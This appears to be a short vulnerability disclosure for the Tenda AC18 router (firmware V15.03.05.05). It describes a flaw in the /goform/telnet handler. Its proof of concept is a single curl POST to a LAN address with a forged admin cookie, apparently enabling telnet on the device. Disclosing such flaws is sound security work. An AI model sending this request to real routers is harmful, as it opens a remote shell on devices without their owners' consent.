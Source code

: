 # TendaAC18v15.03.05.05telnet

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/102610

## Affected version

AC18v1.0 V15.03.05.05

## Vulnerability details

An issue was discovered in AC18v1.0 V15.03.05.05 devices. An HTTP request within the handler function of the /goform/telnet route. This could lead to Shell Metacharacters.

![1736746414925](F:\Desktop\工具\二进制漏洞\IoT\img\1736746414925.png)

## POC

```python
curl -i -X POST http://192.168.1.100/goform/telnet -d aa=aa --cookie "user=admin" --http0.9
```

![1736746378753](F:\Desktop\工具\二进制漏洞\IoT\img\1736746378753.png)

